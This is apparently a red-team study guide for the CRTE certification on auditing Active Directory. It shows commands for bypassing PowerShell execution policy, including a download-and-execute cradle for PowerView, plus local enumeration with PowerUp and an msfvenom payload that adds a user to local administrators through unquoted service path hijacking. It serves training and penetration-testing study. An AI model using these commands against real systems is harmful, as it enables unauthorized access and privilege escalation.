 # General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation:Domain Admin is not the only way to own an Active Directory environment.

>:exclamation:CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\0xdemiafk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\0xdemiafk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\0xdemiafk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\0xdemiafk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .PowerView.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\0xdemiafk\Documents\> whoami /GROUPS
```

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\0xdemiafk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Importing and executing PowerUp

```
PS C:\Users\0xdemiafk\Documents\> Import-Module PowerUp.ps1; Invoke-AllChecks
```


### Importing Active Directory Module.

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\ActiveDirectory.psd1
```
### Importing PowerView

```
PS C:\Users\0xdemiafk\Documents\> .\PowerView.ps1
```

## Step 02 - Local Privilege Escalation

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
0xdemiafk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

